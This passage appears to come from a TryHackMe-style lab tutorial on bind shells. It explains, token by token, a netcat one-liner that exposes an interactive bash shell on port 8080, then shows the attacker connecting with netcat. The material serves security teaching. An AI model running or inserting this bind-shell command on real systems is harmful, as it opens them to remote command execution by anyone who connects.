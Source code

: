 *Explanation of the Payload*

- `rm -f /tmp/f`  
  This command removes any existing named pipe file located at `/tmp/f/`. This ensures that the script can create a new named pipe without conflicts.

- `mkfifo /tmp/f`  
  This command creates a named pipe, or FIFO, at `/tmp/f`. Named pipes allow for two-way communication between processes. In this context, it acts as a conduit for input and output.

- `cat /tmp/f`  
  This command reads data from the named pipe. It waits for input that can be sent through the pipe.

- `| bash -i 2>&1`  
  The output of `cat` is piped to a shell instance (`bash -i`), which allows the attacker to execute commands interactively. The `2>&1` redirects standard error to standard output, ensuring error messages are returned to the attacker.

- `| nc -l 0.0.0.0 8080`  
  Starts Netcat in listen mode (`-l`) on all interfaces (`0.0.0.0`) and port 8080. The shell will be exposed to the attacker once they connect to this port.

- `>/tmp/f`  
  This final part sends the commands' output back into the named pipe, allowing for bidirectional communication.

The command above will listen for incoming connections and expose a bash shell. We need to note that ports below 1024 require Netcat to be executed with elevated privileges. Using port 8080 avoids this requirement.

*Terminal on the Target Machine (Bind Shell Setup)*
```bash 
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
Once the command is executed, it will wait for an incoming connection, as shown above.

#### Attacker Connects to the Bind Shell

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.
```bash 
nc -nv TARGET_IP 8080
```
*Explanation of the command*

- `nc`  
  Invokes Netcat, which establishes the connection to the target.

- `-n`  
  Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.

- `-v`  
  Verbose mode provides detailed output of the connection process, such as when the connection is established.

- `TARGET_IP`  
  The IP address of the target machine where the bind shell is running.

